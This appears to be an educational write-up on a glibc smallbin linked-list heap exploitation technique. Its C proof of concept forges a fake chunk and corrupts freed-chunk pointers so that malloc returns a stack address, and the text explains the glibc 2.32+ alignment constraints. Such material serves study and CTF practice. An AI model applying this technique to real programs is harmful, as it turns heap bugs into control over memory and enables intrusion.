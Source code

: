 <details>
<summary><strong>Description</strong></summary>
<p>

similar to the unsorted, and large bin linked list primitive **but better**...

we will be trying to get malloc to allocate a ptr on the stack. This will be done via leveraging the smallbin linked list...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/bin_overviews/small_bins.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/small_bin/linked_list/readme.md
> i modified it a little bit (more general?) (but its worth read)

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *tcache_chunks[7], x[0x30], *reallocate_chunk, *target;

    // target must be aligned 0x10 (explain later)
    for(int i = 0x10; i < 0x20; i++) {
        if((((long)&x[i]) & 0xF) == 0) {
            target = &x[i];
            break;
        }
    }
    printf("target: %p\n", target);

    // allocate chunk (must be in smallbin range in order to work)
    for(int i = 0; i < 7; i++) tcache_chunks[i] = malloc(0x300);
    chunk0 = malloc(0x300);
    malloc(0x18); // padding chunk to prevent consolidation
    chunk1 = malloc(0x300);
    malloc(0x18); // padding chunk to prevent consolidation

    for(int i = 0; i < 7; i++) free(tcache_chunks[i]); // fill up the corresponding tcache

    free(chunk0); // insert our two (soon to be small bin) chunks into the unsorted bin
    free(chunk1);

    malloc(0x300 + 0x10); // move the two unsorted bin chunks over to the small bin

    for(int i = 0; i < 7; i++) tcache_chunks[i] = malloc(0x300); // empty the corresponding tcache bin

    // make our "fake" small bin chunk
    // for this, we only need to set the `prev_size` (setting it to `0x00`), and the chunk_size
    // target[0] = 0x0000000000000000; // fake chunk's prev_size (usually we dont need to care about this)
    target[1] = 0x0000000000000311; // fake chunk's size

    // Then we go ahead, and link this chunk against the two real small bin chunks
    target[2] = ((long)chunk0 - 0x10); // fwd
    target[3] = ((long)chunk1 - 0x10); // bk

    /* now in other writeups here where we do similar things with the unsorted bin / large bin
    you will see us have to make a chunk header right after this chunk because of the 'unlink_chunk' function
    we don't have to worry about that here */

    // link the two real small bin chunks against our fake small bin chunk
    /*VULNERABILITY*/
    chunk0[1] = target; // chunk0 bk
    chunk1[0] = target; // chunk1 fwd
    /*VULNERABILITY*/
    // [smallbin 0x310]: chunk1 -> target -> chunk0

    malloc(0x300); // reallocate chunk0 from small bin, trigger smallbin dumping
    // [tcache 0x310]: chunk1 -> target

    malloc(0x300); // reallocate chunk1 from tcache

    reallocate_chunk = malloc(0x300); // allocate our fake chunk from tcache

    printf("reallocate_chunk: %p\n", reallocate_chunk);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

this will be similar to the unsorted, and large bin linked list writeups. We will make a fake chunk where we want to allocate, assign it a prev_size, chunk_size, and fwd/bk pointer. We will also overwrite the fwd/bk pointers of the chunks we are linking against, to point to this chunk (either the fwd/bk of each).

this differs fron the unsorted/large bin, in two ways. First off, due to the overlap of the tcache bin sizes, whenever we free a chunk that is to be inserted into the small bin, the corresponding tcache must be full. In addition to that, when we want to allocate a small bin chunk, the corresponding tcache bin must be empty.

the second way is beneficial to us. With the unsorted, and large bins, the chunk being allocated has a check (sometimes executed in the unlink_chunk function). That check is basically, is the prev_size of the next chunk, equal to the size of the current chunk? Of course for making a fake chunk, this could prove a bit hard to pull off. **We don't have to worry about that with the small bin**.

</p>
</details>

<details>
<summary><strong>Comment</strong></summary>
<p>

the smallbin itself doesnt have address aligned 0x10 check, but in higher glibc version (`2.32+`), we need to prepare fake chunk size and aligned address to prevent error when the smallbin tcache dumping occur...

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> you can modify above poc without the target address aligned 0x10 restriction...

</p>
</details>